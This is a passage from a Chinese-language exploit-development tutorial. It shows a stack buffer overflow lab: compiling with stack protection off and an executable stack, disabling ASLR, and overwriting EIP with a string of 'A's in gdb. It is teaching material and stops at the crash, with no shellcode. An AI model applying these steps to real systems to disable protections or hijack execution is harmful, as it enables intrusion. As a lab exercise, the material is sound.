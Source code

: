 此程序使用易受攻击的方法`strcyp()`。我们将程序保存到一个文件中。

2.  然后我们使用`fno-stack-protector`和`execstack`使用`gcc`编译程序：

```
 gcc -ggdb name.c -o name -fno-stack-protector -z execstack
```

3.  接下来，我们使用以下命令关闭地址空间随机化：

```
 echo 0 > /proc/sys/kernel/randomize_va_space
```

4.  现在我们使用以下命令在`gdb`中打开我们的程序：

```
 gdb ./name
```

以下屏幕截图显示了前面命令的输出：

![](img/bc9e7142-0794-46bb-bdf8-322a513388d9.png)

5.  接下来，我们使用以下命令使用 Python 提供输入：

```
 r $(python -c 'print "A"*124')
```

以下屏幕截图显示了前面命令的输出：

![](img/985cb9a0-5002-4993-8d7c-8a3e7d86131f.png)

6.  我们可以看到程序崩溃了，显示错误`0x41414141`。这意味着我们输入的字符`A`已经覆盖了 EIP。
